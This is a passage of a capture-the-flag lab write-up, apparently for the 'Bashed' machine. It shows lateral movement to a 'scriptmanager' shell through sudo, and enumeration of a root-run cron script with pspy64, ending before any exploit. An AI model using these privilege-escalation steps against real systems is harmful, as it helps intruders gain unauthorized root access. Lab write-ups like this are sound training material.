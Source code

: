 Luckily, current user can do `sudo` command.

### Spawn a shell as `scriptmanager`

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/tmp$ whoami
whoami
scriptmanager
```

I got a shell of `scriptmanager` now.



# Shell as `root`

### Script

```bash
scriptmanager@bashed:/$ ls -al /scripts
ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Feb 18 23:48 test.txt
```

Due to the name of the user `scriptmanager`, I expected there was a directory for scripts.
And as expected, there is `/scripts` directory.

```bash
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
```

It seems that `test.py` is run by `root`, and create `test.txt` repeatidely.
Let's run `pspy64` to observe this.

```bash
scriptmanager@bashed:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

<SNIP>
2025/02/19 00:08:03 CMD: UID=0     PID=1      | /sbin/init noprompt 
2025/02/19 00:09:01 CMD: UID=0     PID=18637  | /usr/sbin/CRON -f 
```